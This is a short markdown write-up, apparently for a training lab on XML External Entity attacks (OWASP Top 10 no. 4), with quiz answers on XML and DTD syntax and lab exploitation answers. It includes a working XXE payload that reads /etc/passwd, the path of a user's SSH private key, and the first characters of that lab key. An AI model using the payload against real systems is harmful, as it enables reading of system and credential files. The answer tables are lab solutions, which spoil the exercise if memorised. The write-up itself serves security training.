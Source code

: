 # OWASP Top 10
# No. 04
# XML External Entity



## XML 

| Questions | Answers |
|-----------|---------|
| Full form of XML | Extensible Markup Language |
| Is it compulsory to have XML prolog in XML documents ? | no |
| Can we valudate XML documents against a schema ? | yes |
| How can we specify XML version and encoding in XML document ? | XML Prolog |


## DTD

| Questions | Answers |
|-----------|---------|
| How do you define a new ELEMENT ? | !ELEMENT |
| How do you define a ROOT element ? | !DOCTYPE |
| How do you define a new ENTITY ? | !ENTITY |


## XXE Payload

for replacing data
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
 
```

for reading file 
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```


## Exploiting 

| Questions | Answers |
|-----------|---------|
| What is the name of the user in /etc/passwd ? | falcon |
| Where is falcon's SSH key located ? | /home/falcon/.ssh/id_rsa |
| What are the first 18 character for falcon's private key | MIIEogIBAAKCAQEA7b |



